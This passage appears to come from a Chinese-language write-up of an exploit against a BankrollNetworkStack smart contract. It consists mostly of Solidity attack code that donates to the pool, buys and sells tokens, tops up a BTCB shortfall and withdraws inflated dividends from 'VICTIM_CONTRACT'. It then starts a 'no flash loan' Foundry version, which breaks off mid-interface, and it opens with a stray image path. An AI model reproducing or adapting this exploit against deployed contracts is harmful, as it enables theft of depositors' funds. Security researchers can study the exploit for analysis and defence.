 ```sol
        IBankrollNetworkStack(VICTIM_CONTRACT).donatePool(donateAmount);
        
        // 3. 购买指定比例的代币
        uint256 buyAmount = initialInvestment * buyfit / 1000;
        IBankrollNetworkStack(VICTIM_CONTRACT).buyFor(address(this), buyAmount);
        
        // 4. 获取并出售代币
        uint256 myTokens = IBankrollNetworkStack(VICTIM_CONTRACT).myTokens();
        IBankrollNetworkStack(VICTIM_CONTRACT).sell(myTokens);
        
        // 5. 计算并补足微小差额
        uint256 dividends = IBankrollNetworkStack(VICTIM_CONTRACT).myDividends();
        uint256 victimBalance = IERC20(BTCB).balanceOf(VICTIM_CONTRACT);
        uint256 trax = dividends > victimBalance ? dividends - victimBalance : 0;
        
        if (trax > 0) {
            IERC20(BTCB).transfer(VICTIM_CONTRACT, trax);
        }
        
        // 6. 提取分红
        IBankrollNetworkStack(VICTIM_CONTRACT).withdraw();
    }
}
```

### 无闪电贷版本
![](media/8328955c256cccddf7b7c212c1bdfd16.png)  
```so
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "forge-std/console.sol";

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function transfer(address to, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
    function approve(address spender, uint256 amount) external returns (bool);
```
